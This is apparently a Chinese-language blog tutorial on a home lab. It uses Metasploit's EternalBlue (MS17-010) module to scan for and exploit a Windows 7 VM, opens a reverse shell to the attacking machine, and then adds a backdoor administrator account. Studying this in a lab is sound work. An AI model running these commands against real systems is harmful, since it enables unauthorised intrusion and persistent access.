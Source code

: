 ```yaml
---
layout:    post
title:     MSF之ms17-010永恒之蓝漏洞利用
subtitle:  学习学习
date:      2021-04-06
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - 工具
---
```


### MSF之ms17-010永恒之蓝漏洞利用

#### 准备

**实验环境：**

> 攻击机：虚拟机Kali系统 IP：192.168.216.130
> 被攻击机：虚拟机win7 x64系统(关闭防火墙) IP：192.168.216.131
> 攻击工具：Kali自带的msfconsole工具

#### 开始实验

1.进入MSF(可以终端进入也可以搜索在工具栏打开)：

终端命令：``msfconsole``  (root权限打开)

2.查找永恒之蓝对应的模块: ``search ms17-010``

[![c1VZss.md.png](https://z3.ax1x.com/2021/04/06/c1VZss.md.png)](https://imgtu.com/i/c1VZss)

3.利用辅助模块(auxiliary)进行探测信息，扫描发现某网段或IP段内是否存在有此漏洞的主机。

```
use auxiliary/scanner/smb/smb_ms17_010   //进入模块
show options  //显示所需要设置的参数
```

[![c1ZwBn.md.png](https://z3.ax1x.com/2021/04/06/c1ZwBn.md.png)](https://imgtu.com/i/c1ZwBn)

yes表示必须设置的参数，这里只需要设置目标地址(RHOSTS)

4.设置目标主机地址：``set rhosts 192.168.216.131``(这里是我们确定了目标主机，平时不知道可以扫描一段IP地址，如：``set rhosts 192.168.216.0/24``)

开始扫描：``exploit``

[![c1Mm1f.md.png](https://z3.ax1x.com/2021/04/06/c1Mm1f.md.png)](https://imgtu.com/i/c1Mm1f)

可以看到显示出``192.168.216.131``可能存在该漏洞。

5.使用攻击模块进行渗透攻击(第二步时就已经查找出所有相应的模块了)：``use exploit/windows/smb/ms17_010_eternalblue``

查看需要设置的攻击参数信息：``show options``

[![c1ljts.md.png](https://z3.ax1x.com/2021/04/06/c1ljts.md.png)](https://imgtu.com/i/c1ljts)

[![c11wDS.md.png](https://z3.ax1x.com/2021/04/06/c11wDS.md.png)](https://imgtu.com/i/c11wDS)

6.设置目标主机地址：``set rhosts 192.168.216.131``

7.根据主机类型，查找相应的载荷模块：``search windows/x64/shell``

[![c13Ui9.png](https://z3.ax1x.com/2021/04/06/c13Ui9.png)](https://imgtu.com/i/c13Ui9)

8.配置这个载荷模块信息：``set payload windows/x64/shell/reverse_tcp``(这里攻击会直接进入目标主机的cmd,想要在攻击机界面，使用``set payload windows/x64/meterpreter/reverse_tcp``)

9.查看配置的参数信息：``show options``

[![c1GS1I.md.png](https://z3.ax1x.com/2021/04/06/c1GS1I.md.png)](https://imgtu.com/i/c1GS1I)

[![c1GQBT.md.png](https://z3.ax1x.com/2021/04/06/c1GQBT.md.png)](https://imgtu.com/i/c1GQBT)

10.自己主机的信息，没有显示IP地址，使用``set lhosts xx.xx.xx.xx``设置。

11.开始攻击: ``run或exploit``

[![c1JLJH.md.png](https://z3.ax1x.com/2021/04/06/c1JLJH.md.png)](https://imgtu.com/i/c1JLJH)

可以看到成功拿到了目标主机的shell。

12.进行后门植入(创建新的管理员账户)：

```
net user hack 123456/add  //在Win7上创建一个新用户
net localgroup administrators hack/add  //将hack加入到win7的管理员组，提权
```

[![c8LCEd.png](https://z3.ax1x.com/2021/04/07/c8LCEd.png)](https://imgtu.com/i/c8LCEd)

进入win7看看：

```
net user  //查看win7本地用户
net localgroup administrators  //查看win7本地管理员
```

[![c8LA8P.png](https://z3.ax1x.com/2021/04/07/c8LA8P.png)](https://imgtu.com/i/c8LA8P)

可以看到成功了。

